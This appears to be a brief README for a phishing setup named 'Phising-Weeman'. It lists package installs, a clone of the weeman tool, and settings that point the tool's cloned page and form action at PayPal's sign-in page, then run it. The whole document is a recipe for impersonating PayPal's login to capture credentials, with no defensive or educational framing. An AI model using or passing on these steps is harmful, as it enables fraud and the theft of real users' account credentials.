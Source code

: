 # Phising-Weeman

pkg update && pkg upgrade
   
pkg install python2

pkg install git

git clone https://github.com/evait-security/weeman

Then

set url example(https://paypal.com/in/signin).
set port ANY (8080).   
set action_url (https://www.paypal.com/in/signin).
run
